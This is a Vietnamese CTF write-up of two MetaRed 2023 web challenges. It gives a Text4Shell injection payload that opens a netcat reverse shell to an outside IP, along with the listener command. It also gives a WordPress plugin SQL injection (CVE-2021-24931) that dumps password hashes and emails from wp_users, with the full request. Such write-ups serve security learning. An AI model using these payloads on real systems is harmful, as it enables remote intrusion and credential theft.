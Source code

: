 ```yaml
---
title: Write-Up MetaRed CTF 2023 - Stage 5
date: 2023-11-23 7:55:00 +0700
categories: [CTF, MetaRed-CTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

# MetaRed CTF 2023 - Stage 5
# WEB - Text4Shell

- Về cơ bản, việc ta cần làm là tìm cách RCE thông qua param `?search` của trang web, ở đây mình sử dụng revershell

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled.png">
payload: `${java.lang.Runtime.getRuntime().exec('nc 65.21.156.52 4443 -e /bin/bash')}`

payload encode url: xx(http)://190.15.135.60/text4shell/attack?search=%24{script%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('nc 65.21.156.52 4443 -e %2Fbin%2Fbash')} - **encode $ { }/ và ( )**

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled 1.png">

- `nc -lvnp 4443` : kết nối vào port 4443, sau đó lấy flag ^^

# WEB-WordPress

**[Wordpress Plugin Secure Copy Content Protection and Content Locking < 2.8.2 - SQL-Injection (Unauthenticated)](https://github.com/Hacker5preme/Exploits#wordpress-plugin-secure-copy-content-protection-and-content-locking--282---sql-injection-unauthenticated)**

**# CVE: CVE-2021-24931**

Plugin WordPress "The Secure Copy Content Protection and Content Locking" phiên bản trước 2.8.2 không thoát (escape) đúng tham số **`sccp_id`** của  AJAX **`ays_sccp_results_export_file`**. Hành động này có sẵn cho cả người dùng chưa xác thực và người dùng đã xác thực. Trước khi sử dụng giá trị **`sccp_id`** trong một câu lệnh SQL, plugin không thực hiện bước thoát thích hợp, dẫn đến một lỗ hổng SQL injection.

Lỗ hổng này có thể cho phép kẻ tấn công thực hiện các cuộc tấn công SQL Injection bằng cách chèn các câu lệnh SQL độc hại vào giá trị của **`sccp_id`**.

[https://www.exploit-db.com/exploits/50733](https://www.exploit-db.com/exploits/50733)

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled 2.png">

PAYLOAD: `3) union select 1,user_pass,user_email,2,2,2 from wp_users union select 1,1,1,1,1,1 FROM wp_ays_sccp_reports WHERE (1=1`

- Phần này đang thực hiện một tấn công SQL Injection bằng cách sử dụng UNION SELECT để nối kết quả từ hai truy vấn khác nhau.
- Đoạn **`select 1, user_pass, user_email, 2, 2, 2 from wp_users`** lấy thông tin mật khẩu (**`user_pass`**) và email (**`user_email`**) từ bảng **`wp_users`**.
- Đoạn **`select 1, 1, 1, 1, 1, 1 FROM wp_ays_sccp_reports WHERE (1 = 1)`** dùng để cân bằng các cột

payload url: `GET /wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)%20union%20select%201,user_pass,user_email,2,2,2%20from%20wp_users%20union%20select%201,1,1,1,1,1%20FROM%20wp_ays_sccp_reports%20WHERE%20(1=1%20&type=json HTTP/1.1`

flag{$P$BsIu9jhV\/NIdvwjpaV8n0MeyhZgMmz0}
